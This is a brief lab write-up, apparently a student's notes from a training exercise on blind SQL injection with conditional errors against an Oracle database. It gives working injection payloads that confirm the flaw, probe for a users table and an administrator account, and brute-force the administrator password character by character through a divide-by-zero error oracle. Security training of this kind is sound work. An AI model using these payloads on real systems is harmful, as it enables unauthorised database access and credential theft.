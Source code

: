 # Lab 12 - Blind SQL injection with conditional errors
 <br>
since this oracle database we will use different information sechame and operators <br>
 <br>
## 1) Confirm that the parameter is vulnerable to blind SQLi
by using payload <br>
' || (select '' from dual) || '  <br>
the response have no error code which is okay  <br>
if we try something wrong i see error <br>
like ' || (select '' from dualsaasaasasassa) || ' <br>

## 2) Confirm that we have a users and administrator user in table
' || (select '' from users where rownum =1) || '  <br>
we have no error <br>
then  <br>
' || (select '' from users where username='administrator') || '  <br>
there's no error <br>
 <br>
##  3) bruteforce the password character by character 
3'||(SELECT CASE WHEN SUBSTR(password,1,1)='a' THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||' <br>
 <br>
![image](https://github.com/user-attachments/assets/846b2816-119f-4bf7-b615-9175819904f8)
